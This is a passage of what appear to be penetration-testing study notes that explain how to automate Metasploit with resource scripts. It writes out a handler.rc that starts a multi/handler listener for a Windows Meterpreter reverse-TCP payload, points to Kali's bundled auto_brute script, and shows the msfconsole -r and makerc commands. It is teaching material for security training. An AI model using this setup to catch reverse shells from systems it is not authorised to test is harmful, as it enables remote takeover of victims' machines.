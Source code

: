 ```shell
```

### 4.4. Automating Metasploit With Resource Scripts

 We noticed that there are a few commands that can be quite repetitive, for example, lie setting up a multi-handler for the payloads and that's where resource scripts come into play.

```shell
# We have a series of a collection of resource scripts that can come pre-packaged with Kali. I can view them by listing out the contents of the directory user share Metasploit framework.
ls -lah /usr/share/metasploit-framework/scripts/resource
vim /usr/share/metasploit-framework/scripts/resource/auto_brute.rc

cd Windows_Payloads/
ls

# So if I want to set up a handler resource script to essencially set up a multi handler for the Windows payloads, I would create one.
vim handler.rc # nano handler.rc
# Whitin the document I can then specify the command or that I would tipically run when setting up a handler. 

# Insert the following lines
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
# Save it and exit

# In order to load it an actually see how this work, we need to type:
msfconsole -q -r handler.rc

# msfconsole
resource handler.rc

# Export inserted msfconsole commands into a resource script
# Exprort commands typed in msfconsole
makerc <File_destination_FILE_name>.rc

# Another example
vim db_status
# Insert the following lines
db_status
workspace
workspace -a Test

msfconsole -r db_status.rc
```

<br>

